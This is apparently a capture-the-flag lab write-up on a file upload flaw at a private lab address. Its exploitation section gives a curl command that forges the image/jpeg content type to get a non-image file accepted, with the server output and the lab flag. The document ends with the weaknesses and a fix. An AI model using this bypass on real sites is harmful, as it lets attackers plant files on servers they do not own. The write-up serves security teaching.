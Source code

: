 # File Upload

## Page

* Url: http://192.168.56.101/?page=upload

## Enumeration

We tried to upload files with different extension and noticed the server only accepted jpeg files. We investigated further to see how the server was performing its file verification. 

## Exploitation

```
curl -X POST -F "Upload=upload" -F "uploaded=@./Resources/nani;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep succes
```

```
Resources git:(main) ✗ curl -X POST -F "Upload=upload" -F "uploaded=@./nani;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep succes
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3036    0  2745  100   291    548     58  0:00:05  0:00:05 --:--:--   571
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/nani succesfully uploaded.</pre>
```

## Weaknesses

* No back-end file type validation
* Trust the request header

## Solution

* Implement strong file type verification

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt